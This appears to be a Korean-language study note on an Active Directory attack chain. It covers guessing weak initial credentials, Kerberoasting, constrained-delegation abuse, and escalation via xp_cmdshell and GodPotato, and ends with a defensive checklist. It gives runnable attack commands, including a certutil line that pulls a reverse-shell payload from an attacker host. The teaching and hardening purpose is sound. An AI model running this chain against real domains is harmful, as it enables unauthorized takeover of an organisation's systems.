

> [!summary] ⏱️ 5초 핵심 요약
> - **한 줄 비유**: 사내 게시판에 노출된 **말단 사원증(초기 계정)**으로 들어간 뒤, **시설 관리팀 공용 열쇠(Kerberoasting)**를 해독하고, 그 열쇠에 붙은 **'임원 대리 결재권(제약 위임)'**으로 DB 서버에 명령을 내려 결국 **건물 중앙 통제실 마스터키(`NT AUTHORITY\SYSTEM`)**까지 쥐는 4단계 연쇄 공격입니다.
> - **핵심 원리**: AD 침투의 대표 정석 체인은 **`초기 도메인 계정 확보` → `Kerberoasting으로 서비스 계정 탈취` → `제약 위임(S4U2Self + S4U2Proxy)으로 관리자 가장` → `xp_cmdshell + SeImpersonatePrivilege(Potato)로 로컬 SYSTEM 승격`**으로 이어집니다.
> - **핵심 방어**: 서비스 계정 비밀번호 **25자 이상 복잡도 또는 gMSA 전환 + 불필요한 위임(`TRUSTED_TO_AUTH_FOR_DELEGATION`) 제거 + `xp_cmdshell` 비활성화 및 서비스 계정 최소 권한 분리**로 사슬을 끊습니다.

액티브 디렉터리(AD) 침투에서 가장 흔히 반복되는 흐름 중 하나는 **"약한 초기 자격증명 → Kerberoast로 서비스 계정 탈취 → 그 계정의 위임(delegation) 권한 남용 → 서비스 레벨 RCE → 토큰 가장으로 SYSTEM"**으로 이어지는 체인입니다. 개별 기법의 바탕이 되는 AD 정상 구조는 [[공격 체인 이전의 AD 아키텍처 기초 — Kerberos, NTLM, DACL·ACE, GPO·SYSVOL, 도메인 트러스트]]에서 다루었으며, 이 네 가지가 한 환경에서 순서대로 엮이는 패턴을 정리해두면 실전에서 체인을 훨씬 빨리 알아볼 수 있습니다.

*(주의: 아래 명령은 전부 플레이스홀더(`<target>`, `<domain>`, `<user>`)로 일반화했습니다. 모든 기법은 본인 소유 랩이나 명시적으로 인가된 시스템에서만 재현하세요. 특정 코스/챌린지의 풀이 원문(머신명·IP·플래그)은 해당 제공자의 정책에 따라 비공개로 보관합니다.)*



---

## 한눈에 보는 4단계 Kerberos 공격 체인 요약

| 단계 | 공격 기법 | 입력(전제조건) | 출력(산출물) | 핵심 도구 및 명령 |
|---|---|---|---|---|
| **1단계** | **초기 도메인 발판 확보** | 웹 페이지·문서에 노출된 계정명 규칙 + 약한 초기 암호(`계정명=암호` 등) | 유효한 도메인 일반 사용자 TGT 및 SMB 열거 권한 | `impacket-getTGT`, `impacket-smbclient` |
| **2단계** | **Kerberoasting** | 아무 도메인 사용자 인증 세션 + SPN이 등록된 서비스 계정 존재 | 서비스 계정의 평문 비밀번호 | `impacket-GetUserSPNs`, `john` / `hashcat` |
| **3단계** | **제약 위임(S4U) 남용** | 크랙한 서비스 계정에 `TRUSTED_TO_AUTH_FOR_DELEGATION` + 대상 SPN 위임 설정 | 대상 서비스(예: MSSQL)에 `administrator`로 인증되는 서비스 티켓(ST) | `impacket-findDelegation`, `impacket-getST`, `impacket-mssqlclient` |
| **4단계** | **RCE 및 로컬 토큰 가장** | SQL 관리자 세션(`xp_cmdshell`) + OS 서비스 계정의 `SeImpersonatePrivilege` | 호스트(또는 DC)의 **`NT AUTHORITY\SYSTEM`** 셸 | `xp_cmdshell`, `GodPotato` / `PrintSpoofer` |

---

## 1. 내부 공지/지원 페이지에서 사용자명 규칙 유출

**💡 한 줄 비유**: 회사 로비 게시판에 붙은 **"신입사원 사원증 발급 예시 포스터"에 실제 재직자의 사번 규칙과 초기 비밀번호 힌트가 그대로 찍혀 있는 상황**입니다.

### 핵심 원리
- **OSINT와 사용자명 규칙(Username Convention) 파악**: 사내 IT 지원 페이지나 안내 문서가 "이렇게 정보를 수집해서 보내주세요" 같은 예시 화면을 캡처해 올려두는데, 그 캡처에 실제 조직 계정명이 그대로 노출되는 경우가 의외로 흔합니다.
- **초기 발판(Foothold) 확보**: 캡처 한 장에서 **조직의 사용자명 생성 규칙(예: `이름이니셜+성`)**과 **실제 유효 계정명**을 동시에 얻을 수 있습니다. 특히 테스트·지원용 계정은 비밀번호가 계정명과 동일(`user:user`)하거나 조직 기본값으로 방치된 경우가 많아 곧바로 Kerberos TGT 발급으로 이어집니다.

### 실전 명령어 흐름
```bash
# 1. 추정한 사용자명으로 Kerberos TGT 발급 시도 (비밀번호 = 사용자명인 경우)
impacket-getTGT "<domain>/<user>:<user>" -dc-ip <target>
export KRB5CCNAME="$PWD/<user>.ccache"

# 2. 발급된 티켓으로 패스워드 재입력 없이(-k -no-pass) SMB 공유 열거
imacket-smbclient -k -no-pass "<domain>/<user>@<target>"
```

발판이 생기면 가장 먼저 공유 폴더를 돌며 서비스 계정 이름의 단서(문서, 스크립트, 설정 파일)를 찾습니다.


---

## 2. Kerberoasting — 서비스 계정의 TGS를 오프라인 크랙

**💡 한 줄 비유**: 사원증만 있으면 사내 어느 자판기(서비스)든 **"이용권(TGS 티켓)"을 뽑아올 수 있는데, 그 이용권 코팅이 자판기 관리자의 비밀번호로 되어 있어 집으로 가져가 마음껏 암호 해독기를 돌리는 기법**입니다.

### 핵심 원리
- **왜 인증된 일반 사용자가 요청할 수 있는가?**: Kerberos 정상 설계상 도메인에 인증된 계정이 하나라도 있으면, SPN(Service Principal Name)이 등록된 서비스 계정 전체에 대해 KDC로 TGS(서비스 티켓) 발급을 요청할 수 있습니다.
- **왜 오프라인 크랙이 가능한가?**: 발급된 TGS 티켓의 암호화 부분은 **해당 서비스 계정의 비밀번호 해시(RC4-HMAC의 경우 NTLM 해시 `$krb5tgs$23$...`, 또는 AES 키)**로 암호화되어 있습니다. 공격자는 티켓만 받아온 뒤 네트워크 연결 없이 로컬 PC에서 워드리스트로 초당 수백만 번씩 크랙을 시도할 수 있어 계정 잠금(Lockout)이나 추가 로그인 실패 로그가 남지 않습니다.
- **높은 성공률의 이유**: 사람이 매일 로그인하는 일반 계정과 달리, 한 번 설정해 둔 서비스 계정은 서비스 중단이 두려워 수년째 약한 비밀번호를 그대로 쓰는 경우가 많습니다.

### 실전 명령어 흐름
```bash
# 1. 도메인 내 SPN이 등록된 사용자 계정의 TGS 티켓 일괄 요청
impacket-GetUserSPNs "<domain>/<user>" -dc-host <dc-hostname> -dc-ip <target> -k -no-pass -request
# 출력된 해시($krb5tgs$23$...)를 tgs.txt 에 저장

# 2. John the Ripper + rockyou.txt 로 오프라인 크랙
john tgs.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

여기서 평문 비밀번호가 나오면, 그 서비스 계정으로 다시 TGT를 발급받아 다음 단계로 넘어갑니다.


---

## 3. 제약 위임(Constrained Delegation) 남용 — 관리자로 가장한 서비스 세션

**💡 한 줄 비유**: 탈취한 서비스 계정에 **"사장님(`administrator`)을 대신해 금고(MSSQL) 심부름을 갈 수 있는 대리 위임장"**이 들어 있어서, 금고 경비원에게는 사장님이 직접 온 것처럼 속여 문을 여는 단계입니다.

### 핵심 원리
- **제약 위임(Constrained Delegation)의 효과**: Kerberoast로 확보한 서비스 계정에 특정 서비스(예: `MSSQLSvc/<dc-hostname>`)에 대한 제약 위임이 설정돼 있으면, 그 서비스에 한해 **다른 임의 사용자(관리자 포함)로 가장한 서비스 티켓(ST)**을 발급받을 수 있습니다.
- **반드시 확인해야 할 2가지 성립 전제조건**:
  1. **대상 SPN 등록 (`msDS-AllowedToDelegateTo`)**: 크랙한 서비스 계정에 위임이 걸려 있는지, 걸려 있다면 어느 서비스(SPN) 대상인지 `findDelegation.py`(Impacket), BloodHound, 또는 PowerView(`Get-DomainUser -TrustedToAuth`)로 먼저 확인해야 합니다.
  2. **Protocol Transition 활성화 (`TRUSTED_TO_AUTH_FOR_DELEGATION`)**: 공격자가 관리자 비밀번호 없이 `-impersonate`로 임의 사용자를 가장하려면(즉, `S4U2Self`로 받은 티켓이 `forwardable`해져 `S4U2Proxy`까지 연달아 성공하려면) 해당 계정의 `UserAccountControl`에 **`TRUSTED_TO_AUTH_FOR_DELEGATION`** 플래그가 함께 켜져 있어야 합니다. 이 조건이 없으면 같은 명령을 그대로 따라 해도 재현되지 않습니다.
- **SQL 인증 주체 vs OS 프로세스 주체의 차이 (핵심 주의점)**:
  - 위임 티켓으로 MSSQL에 접속하면 **데이터베이스 로그인 주체는 `administrator`(sysadmin 권한)**로 인식되어 `xp_cmdshell`을 켤 수 있습니다.
  - 하지만 `xp_cmdshell`이 실제로 띄우는 **Windows OS 프로세스는 `administrator`가 아니라 MSSQL 데몬을 실행 중인 '서비스 계정' 컨텍스트**로 동작합니다(`xp_cmdshell 'whoami'`로 반드시 검증!). 이 차이를 혼동하면 왜 바로 관리자 폴더(`C:\Users\Administrator`)가 안 열리는지 당황하게 됩니다.

### 실전 명령어 흐름
```bash
# 1. 도메인 내 위임 설정 계정 · 대상 SPN · Protocol Transition 여부 열거
impacket-findDelegation "<domain>/<user>:<password>" -dc-ip <target>

# 2. 크랙한 서비스 계정의 TGT 발급 (선택 확인)
impacket-getTGT "<domain>/<svc_account>:<cracked_pw>" -dc-ip <target>
export KRB5CCNAME="$PWD/<svc_account>.ccache"

# 3. S4U2Self + S4U2Proxy를 통해 administrator로 가장한 대상 SPN용 서비스 티켓(ST) 발급
impacket-getST -spn <service>/<dc-hostname> -impersonate administrator \
  "<domain>/<svc_account>:<cracked_pw>" -dc-ip <target>
export KRB5CCNAME="$PWD/administrator.ccache"

# 4. 발급받은 관리자 가장 티켓으로 MSSQL 접속
impacket-mssqlclient -k -no-pass "<domain>/administrator@<dc-hostname>"
```


---

## 4. xp_cmdshell → SeImpersonatePrivilege → Potato 계열로 SYSTEM

**💡 한 줄 비유**: 금고 방 안에서 명령을 수행하는 작업 반장(MSSQL OS 서비스 계정)이 **"누구의 신분증이든 잠깐 빌려 쓸 수 있는 특수 배지(`SeImpersonatePrivilege`)"**를 달고 있어서, 건물 최고 관리자(`SYSTEM`)를 방으로 유인한 뒤 그 신분증을 복제해 건물 전체를 장악하는 마무리지점입니다.

### 핵심 원리
- **`xp_cmdshell`로 OS 명령 실행 개방**: MSSQL에서 `administrator`(sysadmin) 세션으로 들어왔으므로 기본적으로 꺼져 있는 `xp_cmdshell` 옵션을 켜서 호스트 OS 명령어를 실행합니다.
- **`SeImpersonatePrivilege`와 Potato 권한상승**: `xp_cmdshell`이 띄운 셸은 MSSQL 서비스 계정 권한인데, Windows 서비스 계정에는 클라이언트 토큰을 가장할 수 있는 **`SeImpersonatePrivilege`**가 기본 부여되는 경우가 많습니다. 이 권한이 `Enabled` 상태라면 **GodPotato, PrintSpoofer, SweetPotato** 같은 도구로 로컬 `NT AUTHORITY\SYSTEM` 파이프/DCOM 인증을 유도해 최고 권한 토큰을 탈취할 수 있습니다. (자격증명 피벗과의 연결은 [[윈도우 AD 침투 자격증명 피벗 권한상승 3가지 기법]] 참고)
- **DC에서의 SYSTEM = 도메인 완전 장악**: 만약 대상 서버가 도메인 컨트롤러(DC) 자체라면, 로컬 `NT AUTHORITY\SYSTEM`을 획득한 순간 `NTDS.dit` 추출 및 DCSync가 모두 가능하므로 도메인 전체 장악과 동급입니다.

### 실전 명령어 흐름
```sql
-- [MSSQL 세션 내부] xp_cmdshell 활성화 및 현재 OS 계정의 특권 확인
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami /priv';
-- 출력에서 SeImpersonatePrivilege: Enabled 확인
```


```powershell
# [타깃 호스트 명령 실행] 공격자 웹 서버에서 리버스 셸 페이로드와 GodPotato 다운로드
certutil -urlcache -f http://<attacker-ip>/shell.exe C:\Windows\Temp\shell.exe
certutil -urlcache -f http://<attacker-ip>/GodPotato-NET4.exe GodPotato-NET4.exe

# SeImpersonatePrivilege 를 DCOM/RPC 토큰 가장으로 악용 → SYSTEM 권한으로 셸 실행
.\GodPotato-NET4.exe -cmd "C:\Windows\Temp\shell.exe"
```


---

## 5. 체인 전체 그림과 단계별 방어 전략

**💡 한 줄 비유**: 4개의 고리로 연결된 쇠사슬은 **4개 모두를 완벽히 막지 못하더라도 중간 고리 단 하나만 튼튼하게 끊어내면 최종 도메인 장악을 막을 수 있습니다.**

### 단계별 산출물 연결 구조
```text
내부 안내 페이지 정보 유출 → 사용자명 규칙 추정
        │  (계정명=비밀번호 등 약한 초기 자격증명)
        ▼
[1] 저특권 도메인 계정 획득
        │  (Kerberoasting)
        ▼
[2] 서비스 계정 TGS 크랙 → 평문 비밀번호 확보
        │  (제약 위임 남용: S4U2Self + S4U2Proxy)
        ▼
[3] administrator로 가장한 서비스 세션 (OS 권한은 아직 서비스 계정)
        │  (xp_cmdshell RCE)
        ▼
[4] 서비스 계정 셸 획득 → SeImpersonatePrivilege 확인
        │  (Potato 계열 토큰 가장)
        ▼
👑 NT AUTHORITY\SYSTEM
```

### 어느 고리를 어떻게 끊을 것인가? (방어 체크리스트)

| 차단 지점 | 구체적인 방어 및 하드닝 조치 |
|---|---|
| **0~1단계 (초기 침투)** | • 사내 안내·지원 문서의 스크린샷에 실제 계정명이 노출되지 않도록 더미 데이터·마스킹 적용<br/>• 초기 계정 비밀번호를 계정명과 다르게 강제하고 최초 로그인 시 즉시 변경 요구 |
| **2단계 (Kerberoasting)** | • SPN이 등록된 서비스 계정은 **25자 이상의 무작위 고복잡도 비밀번호**를 부여하거나, AD가 암호를 자동 회전하는 **gMSA(Group Managed Service Account)**로 전환<br/>• 암호화 방식을 RC4(`$krb5tgs$23$`) 대신 **AES256**으로 강제해 크랙 연산 비용 대폭 상향 |
| **3단계 (위임 남용)** | • 불필요한 제약 위임 및 `TRUSTED_TO_AUTH_FOR_DELEGATION`(Protocol Transition) 제거, 필요 시 RBCD로 최소 범위 제한<br/>• `Administrator` 등 고권한 계정을 **`Protected Users` 보안 그룹**에 넣거나 **"계정이 민감하므로 위임할 수 없음(Account is sensitive and cannot be delegated)"** 플래그 활성화 |
| **4단계 (RCE 및 SYSTEM)** | • MSSQL `xp_cmdshell`은 업무상 불필요하면 영구 비활성화 및 감사 로깅 적용<br/>• 서비스 계정의 `SeImpersonatePrivilege` 부여 여부를 재검토하고 도메인 컨트롤러(DC)에 일반 애플리케이션/DB 서비스를 함께 올리지 않도록 서버 역할 분리 |

---

## 참고
- [Impacket (Fortra)](https://github.com/fortra/impacket)
- [GodPotato (BeichenDream)](https://github.com/BeichenDream/GodPotato)
- [Kerberoasting — hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)
- [Constrained Delegation 남용 — hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/constrained-delegation)
